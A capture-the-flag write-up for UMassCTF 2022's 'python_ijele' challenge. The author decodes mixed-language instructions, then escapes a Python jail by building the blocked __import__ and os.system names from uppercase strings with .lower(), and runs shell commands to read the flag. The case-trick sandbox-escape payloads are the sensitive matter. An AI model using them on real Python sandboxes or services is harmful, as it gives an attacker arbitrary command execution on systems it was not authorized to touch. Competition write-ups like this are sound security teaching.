 # UMassCTF 2022 - python_ijele
- Write-Up Author: Wendy \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag: UMASS{congrats-now-you-are-multilingual}

## **Question:**
python_ijele

>Challenge description

Google translate broke when I was making the instructions for this python jail

nc 34.148.103.218 1227

## Write up

From the challenge description, I need to translate below instruction.
```
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
```

```
Translated by Google: You have to cracked my language code. Join the word cow
```

Great! Type 'cow' to contines the challenge. Then I start to escape Python Jail.

```
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()))

```

![img](./img/1.png)

```

print(__builtins__.__dict__['__IMPORT__'.lower()]('cat flag))

```

![img](./img/2.png)

```
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls'))

```

![img](./img/3.png)


```
print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag'))

```

![img](./img/4.png)

Bingo! I get the flag.

> UMASS{congrats-now-you-are-multilingual}
